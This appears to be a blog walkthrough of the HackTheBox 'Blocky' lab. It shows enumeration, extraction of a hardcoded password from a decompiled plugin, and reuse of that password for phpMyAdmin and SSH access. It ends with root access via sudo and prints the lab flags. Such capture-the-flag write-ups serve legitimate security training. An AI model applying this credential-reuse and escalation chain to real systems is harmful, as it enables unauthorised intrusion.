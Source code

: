 ```yaml
---
layout: post
title: HackTheBox Blocky
date: 2017-07-21
tags: [HackTheBox, Linux]
---
```


# Machine Synopsis

Blocky is fairly simple overall, and was based on a real-world machine. It demonstrates the risks of bad password practices as well as exposing internal files on a public facing system. On top of this, it exposes a massive potential attack vector: Minecraft. Tens of thousands of servers exist that are publicly accessible, with the vast majority being set up and configured by young and inexperienced system administrators. ([Source](https://www.hackthebox.com/machines/blocky))

# Enumeration

```bash
┌──(root💀shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.37
Nmap scan report for 10.10.10.37
Host is up (0.0038s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Device type: general purpose|WAP|specialized|storage-misc|broadband router|printer
Running (JUST GUESSING): Linux 3.X|4.X|5.X|2.6.X (94%), Asus embedded (90%), Crestron 2-Series (89%), HP embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:5.1 cpe:/o:linux:linux_kernel:2.6
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.13 (94%), Linux 3.13 or 4.2 (94%), Linux 4.4 (94%), Linux 4.2 (93%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.12 (91%), Linux 3.2 - 4.9 (91%), Linux 3.8 - 3.11 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT     ADDRESS
1   3.66 ms 10.10.14.1
2   3.67 ms 10.10.10.37

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.45 seconds
```

It seems like there’s an FTP port open.

```bash
┌──(root💀shiro)-[/home/shiro]
└─# ftp 10.10.10.37                                    
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:shiro): anonymous
331 Password required for anonymous
Password: 
530 Login incorrect.
ftp: Login failed
ftp> ls
530 Please login with USER and PASS
530 Please login with USER and PASS
ftp: Can't bind for data connection: Address already in use
```

We can’t seem to get any access to the FTP server. 

## Website

![Website](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Blocky/Website.png?raw=true)

It seems like the website is running on WordPress! Used `dirsearch` to check for interesting directories.

```bash
┌──(root💀shiro)-[/home/shiro]
└─# dirsearch -u 10.10.10.37:80     
...
[11:25:57] 301 -  315B  - /phpmyadmin  ->  http://10.10.10.37/phpmyadmin/
[11:25:58] 200 -   10KB - /phpmyadmin/
[11:25:58] 200 -   10KB - /phpmyadmin/index.php
[11:25:58] 301 -  312B  - /plugins  ->  http://10.10.10.37/plugins/
[11:25:58] 200 -  745B  - /plugins/
[11:26:00] 200 -    7KB - /readme.html
[11:26:07] 301 -  313B  - /wp-admin  ->  http://10.10.10.37/wp-admin/
[11:26:07] 301 -  315B  - /wp-content  ->  http://10.10.10.37/wp-content/
[11:26:07] 200 -    0B  - /wp-config.php
[11:26:07] 200 -    0B  - /wp-content/
[11:26:07] 200 -    1B  - /wp-admin/admin-ajax.php
[11:26:07] 200 -  965B  - /wp-content/uploads/
[11:26:07] 302 -    0B  - /wp-admin/  ->  http://10.10.10.37/wp-login.php?redirect_to=http%3A%2F%2F10.10.10.37%2Fwp-admin%2F&reauth=1
[11:26:07] 301 -  316B  - /wp-includes  ->  http://10.10.10.37/wp-includes/
[11:26:07] 200 -    0B  - /wp-cron.php
[11:26:07] 200 -   40KB - /wp-includes/
[11:26:07] 200 -    2KB - /wp-login.php
[11:26:07] 302 -    0B  - /wp-signup.php  ->  http://10.10.10.37/wp-login.php?action=register
...
```

Seems like there are some interesting pages called `wp-login.php`, `wp-admin`, `phpmyadmin` and `plugins`! Let’s check it out~

### WordPress Login Page

![Wordpress_Login](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Blocky/Wordpress_Login.png?raw=true)

Default credentials didn’t work.

### WordPress Admin Page

![Wordpress_Admin](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Blocky/Wordpress_Admin.png?raw=true)

This was just a redirect back to `wp-login.php`

### PHPMyAdmin Page

![PHPMyAdmin_Page](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Blocky/PHPMyAdmin_Page.png?raw=true)

Default credentials did not work here as well.

### Plugins Page

![Plugins](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Blocky/Plugins.png?raw=true)

However, there were some interesting files on `/upload` directory. Downloaded them to inspect it with `jd-gui`.

![BlockyCore_Decompiled](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Blocky/BlockyCore_Decompiled.png?raw=true)

There is some interesting information inside the class file!

```java
public String sqlUser = "root";
public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

Since the box does not have any `SQL` service open, can we assume that there’s some password reuse?  Trying the credentials on the `phpmyadmin` page worked!

![PHPMyAdmin_Login](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Blocky/PHPMyAdmin_Login.png?raw=true)

# Exploitation

There was a user credentials on `wp_users table`: `username:notch` and `password hash:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/`

![PHPMyAdmin_Users](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Blocky/PHPMyAdmin_Users.png?raw=true)

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Blocky]
└─# cat hash.txt    
notch:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/                                                                                              
┌──(root💀shiro)-[/home/shiro/HackTheBox/Blocky]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
...
```

It seems like the password hash could not be cracked. However, I remembered that there was a `ssh` port open. Logging in to SSH with the credentials `notch:8YsqfCTnvxAUeduzjNSXe22` worked.

```bash
┌──(shiro㉿shiro)-[/home/shiro/HackTheBox/Blocky]
└─$ ssh notch@10.10.10.37  
...
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5
```

# Privilege Escalation

Before trying out anything, we should always check what commands the user is allowed to run with `sudo -l`

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Well… lucky for us, `notch` can run all commands as `sudo`.

```bash
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:/home/notch# cat /root/root.txt 
0a9694a5b4d272c694679f7860f1cd5f
```
